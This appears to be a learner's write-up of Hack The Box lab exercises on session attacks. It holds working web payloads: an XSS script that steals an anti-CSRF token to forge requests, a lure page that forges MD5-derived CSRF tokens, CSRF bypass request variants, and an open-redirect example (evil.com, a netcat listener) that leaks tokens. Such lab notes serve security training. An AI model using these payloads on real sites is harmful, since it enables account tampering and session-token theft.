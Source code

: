 # 🇿🇲 Session Attacks 2

## XSS & CSRF Chaining

Her are some stuff we must know about this web app:

{% hint style="info" %}


* The application features same origin/same site protections as anti-CSRF measures (through a server configuration - you won't be able to actually spot it)
* The application's _Country_ field is vulnerable to stored XSS attacks
{% endhint %}

After creating our account, we run burp and see the "Change visibility" functionality ->

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And in burp we see this:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

We have to craft a payload and specify in the _Country_ field of Ela Stienen's profile to successfully execute a CSRF attack that will change the victim's visibility settings

```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
//This action will be related to the handleResponse function
req.open('get','/app/change-visibility',true);
//three arguments. get which is the request method, the targeted path /app/change-visibility and then true which will continue the execution.
req.send();
function handleResponse(d) {
    var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];
//defines a variable called token, which gets the value of responseText from the page we specified earlier in our request. /name="csrf" type="hidden" value="(\w+)"/)[1]; looks for a hidden input field called csrf and \w+ matches one or more alphanumeric characters.
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/change-visibility', true);
// Here we change the method from GET to POST. The first request was to move us to the targeted page and the second request was to perform the wanted action.
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token+'&action=change');
};
</script>
```

Here is how you can identify the name of a hidden value or check if it is actually "CSRF".

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

If we get no result we can look through the HTML for some code that's looks like a token

Now to test out the payload, we submit it and click save

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

Now we get a new account simulating the victim, we log in and go in a new tab to look for [http://minilab.htb.net/profile?email=ela.stienen@example.com](http://minilab.htb.net/profile?email=ela.stienen@example.com)

Before visiting the link, the target was private

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

and if we go back to our profile after visiting the payload webpage, we should see that his profile became "public"

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Exploiting Weak CSRF Tokens

First we create our account, then on our profile we press _Change Visibility_ and then _Make Public_.

then in the network requests we spot this:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We quickly see that the token is md5 ->

```shell-session
ElFelixi0@htb[/htb]$ echo -n goldenpeacock467 | md5sum
0bef12f8998057a7656043b6d30c90a2  -
```

Now we craft our malicious page ->

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta name="referrer" content="never">
    <title>Proof-of-concept</title>
    <link rel="stylesheet" href="styles.css">
    <script src="./md5.min.js"></script>
</head>

<body>
    <h1> Click Start to win!</h1>
    <button class="button" onclick="trigger()">Start!</button>

    <script>
        let host = 'http://csrf.htb.net'

        function trigger(){
            // Creating/Refreshing the token in server side.
            window.open(`${host}/app/change-visibility`)
            window.setTimeout(startPoc, 2000)
        }

        function startPoc() {
            // Setting the username
            let hash = md5("crazygorilla983")

            window.location = `${host}/app/change-visibility/confirm?csrf=${hash}&action=change`
        }
    </script>
</body>
</html>
```

In order to have our malicious page to have MD5-hashing functionality, save the below as `md5.min.js` and place it in the directory

```javascript
!function(n){"use strict";function d(n,t){var r=(65535&n)+(65535&t);return(n>>16)+(t>>16)+(r>>16)<<16|65535&r}function f(n,t,r,e,o,u){return d((u=d(d(t,n),d(e,u)))<<o|u>>>32-o,r)}function l(n,t,r,e,o,u,c){return f(t&r|~t&e,n,t,o,u,c)}function g(n,t,r,e,o,u,c){return f(t&e|r&~e,n,t,o,u,c)}function v(n,t,r,e,o,u,c){return f(t^r^e,n,t,o,u,c)}function m(n,t,r,e,o,u,c){return f(r^(t|~e),n,t,o,u,c)}function c(n,t){var r,e,o,u;n[t>>5]|=128<<t%32,n[14+(t+64>>>9<<4)]=t;for(var c=1732584193,f=-271733879,i=-1732584194,a=271733878,h=0;h<n.length;h+=16)c=l(r=c,e=f,o=i,u=a,n[h],7,-680876936),a=l(a,c,f,i,n[h+1],12,-389564586),i=l(i,a,c,f,n[h+2],17,606105819),f=l(f,i,a,c,n[h+3],22,-1044525330),c=l(c,f,i,a,n[h+4],7,-176418897),a=l(a,c,f,i,n[h+5],12,1200080426),i=l(i,a,c,f,n[h+6],17,-1473231341),f=l(f,i,a,c,n[h+7],22,-45705983),c=l(c,f,i,a,n[h+8],7,1770035416),a=l(a,c,f,i,n[h+9],12,-1958414417),i=l(i,a,c,f,n[h+10],17,-42063),f=l(f,i,a,c,n[h+11],22,-1990404162),c=l(c,f,i,a,n[h+12],7,1804603682),a=l(a,c,f,i,n[h+13],12,-40341101),i=l(i,a,c,f,n[h+14],17,-1502002290),c=g(c,f=l(f,i,a,c,n[h+15],22,1236535329),i,a,n[h+1],5,-165796510),a=g(a,c,f,i,n[h+6],9,-1069501632),i=g(i,a,c,f,n[h+11],14,643717713),f=g(f,i,a,c,n[h],20,-373897302),c=g(c,f,i,a,n[h+5],5,-701558691),a=g(a,c,f,i,n[h+10],9,38016083),i=g(i,a,c,f,n[h+15],14,-660478335),f=g(f,i,a,c,n[h+4],20,-405537848),c=g(c,f,i,a,n[h+9],5,568446438),a=g(a,c,f,i,n[h+14],9,-1019803690),i=g(i,a,c,f,n[h+3],14,-187363961),f=g(f,i,a,c,n[h+8],20,1163531501),c=g(c,f,i,a,n[h+13],5,-1444681467),a=g(a,c,f,i,n[h+2],9,-51403784),i=g(i,a,c,f,n[h+7],14,1735328473),c=v(c,f=g(f,i,a,c,n[h+12],20,-1926607734),i,a,n[h+5],4,-378558),a=v(a,c,f,i,n[h+8],11,-2022574463),i=v(i,a,c,f,n[h+11],16,1839030562),f=v(f,i,a,c,n[h+14],23,-35309556),c=v(c,f,i,a,n[h+1],4,-1530992060),a=v(a,c,f,i,n[h+4],11,1272893353),i=v(i,a,c,f,n[h+7],16,-155497632),f=v(f,i,a,c,n[h+10],23,-1094730640),c=v(c,f,i,a,n[h+13],4,681279174),a=v(a,c,f,i,n[h],11,-358537222),i=v(i,a,c,f,n[h+3],16,-722521979),f=v(f,i,a,c,n[h+6],23,76029189),c=v(c,f,i,a,n[h+9],4,-640364487),a=v(a,c,f,i,n[h+12],11,-421815835),i=v(i,a,c,f,n[h+15],16,530742520),c=m(c,f=v(f,i,a,c,n[h+2],23,-995338651),i,a,n[h],6,-198630844),a=m(a,c,f,i,n[h+7],10,1126891415),i=m(i,a,c,f,n[h+14],15,-1416354905),f=m(f,i,a,c,n[h+5],21,-57434055),c=m(c,f,i,a,n[h+12],6,1700485571),a=m(a,c,f,i,n[h+3],10,-1894986606),i=m(i,a,c,f,n[h+10],15,-1051523),f=m(f,i,a,c,n[h+1],21,-2054922799),c=m(c,f,i,a,n[h+8],6,1873313359),a=m(a,c,f,i,n[h+15],10,-30611744),i=m(i,a,c,f,n[h+6],15,-1560198380),f=m(f,i,a,c,n[h+13],21,1309151649),c=m(c,f,i,a,n[h+4],6,-145523070),a=m(a,c,f,i,n[h+11],10,-1120210379),i=m(i,a,c,f,n[h+2],15,718787259),f=m(f,i,a,c,n[h+9],21,-343485551),c=d(c,r),f=d(f,e),i=d(i,o),a=d(a,u);return[c,f,i,a]}function i(n){for(var t="",r=32*n.length,e=0;e<r;e+=8)t+=String.fromCharCode(n[e>>5]>>>e%32&255);return t}function a(n){var t=[];for(t[(n.length>>2)-1]=void 0,e=0;e<t.length;e+=1)t[e]=0;for(var r=8*n.length,e=0;e<r;e+=8)t[e>>5]|=(255&n.charCodeAt(e/8))<<e%32;return t}function e(n){for(var t,r="0123456789abcdef",e="",o=0;o<n.length;o+=1)t=n.charCodeAt(o),e+=r.charAt(t>>>4&15)+r.charAt(15&t);return e}function r(n){return unescape(encodeURIComponent(n))}function o(n){return i(c(a(n=r(n)),8*n.length))}function u(n,t){return function(n,t){var r,e=a(n),o=[],u=[];for(o[15]=u[15]=void 0,16<e.length&&(e=c(e,8*n.length)),r=0;r<16;r+=1)o[r]=909522486^e[r],u[r]=1549556828^e[r];return t=c(o.concat(a(t)),512+8*t.length),i(c(u.concat(t),640))}(r(n),r(t))}function t(n,t,r){return t?r?u(t,n):e(u(t,n)):r?o(n):e(o(n))}"function"==typeof define&&define.amd?define(function(){return t}):"object"==typeof module&&module.exports?module.exports=t:n.md5=t}(this);
//# sourceMappingURL=md5.min.js.map
```

Now we host our page and make our victim (which his account profile is not public) click on `http://<VPN/TUN Adapter IP>:1337/press_start_2_win.html`.

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And if the target presses "Start!". We can  notice that the profile will become public!

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Additional CSRF Protection Bypasses

You can try making the CSRF token a null value (empty), for example:

`CSRF-Token:`

Setting the CSRF token value to the same length as the original CSRF token but with a different/random value:

Real:

`CSRF-Token: 9cfffd9e8e78bd68975e295d1b3d3331`

Fake:

`CSRF-Token: 9cfffl3dj3837dfkj3j387fjcxmfjfd3`

Create two accounts and log into the first account. Generate a request and capture the CSRF token. Copy the token's value, for example, `CSRF-Token=9cfffd9e8e78bd68975e295d1b3d3331`.

Log into the second account and change the value of _CSRF-Token_ to `9cfffd9e8e78bd68975e295d1b3d3331` while issuing the same (or a different) request. If the request is issued successfully, we can successfully execute CSRF attacks

we can try changing the request method. From _POST_ to _GET:_

```http
POST /change_password
POST body:
new_password=pwned&confirm_new=pwned
```

```http
GET /change_password?new_password=pwned&confirm_new=pwned
```

Not sending a token works fairly often because of the following common application logic mistake.

Normal:

```http
POST /change_password
POST body:
new_password=qwerty&csrf_token=9cfffd9e8e78bd68975e295d1b3d3331
```

Let's try:

```http
POST /change_password
POST body:
new_password=qwerty
## or
new_password=qwerty&csrf_token=
```

## Open Redirect

An Open Redirect vulnerability occurs when an attacker can redirect a victim to an attacker-controlled site by abusing a legitimate application's redirection functionality.

The malicious URL an attacker would send leveraging the Open Redirect vulnerability would look as follows:&#x20;

`trusted.site/index.php?url=https://evil.com`

`Here are some`&#x20;

URL parameters to look for when bug hunting, we'll often see them in login pages. Example: `/login.php?redirect=dashboard`

* ?url=
* ?link=
* ?redirect=
* ?redirecturl=
* ?redirect\_uri=
* ?return=
* ?return\_to=
* ?returnurl=
* ?go=
* ?goto=
* ?exit=
* ?exitpage=
* ?fromurl=
* ?fromuri=
* ?redirect\_to=
* ?next=
* ?newurl=
* ?redir=

For the exercise let's say this is our URL:

`http://oredirect.htb.net/?redirect_uri=/complete.html&token=<RANDOM TOKEN>`

If you enter an email account, you will notice that the application is eventually making a POST request to the page specified in the _redirect\_uri_ parameter. A _token_ is also included in the POST request. This token could be a session or anti-CSRF token and, therefore, useful to an attacker.

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Let's test out if we can make requests through _redirect\_uri ->_

```shell-session
ElFelixi0@htb[/htb]$ nc -lvnp 1337
```

We can change the URL we got earlier with this ->

`http://oredirect.htb.net/?redirect_uri=http://<VPN/TUN Adapter IP>:PORT&token=<RANDOM TOKEN>`

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
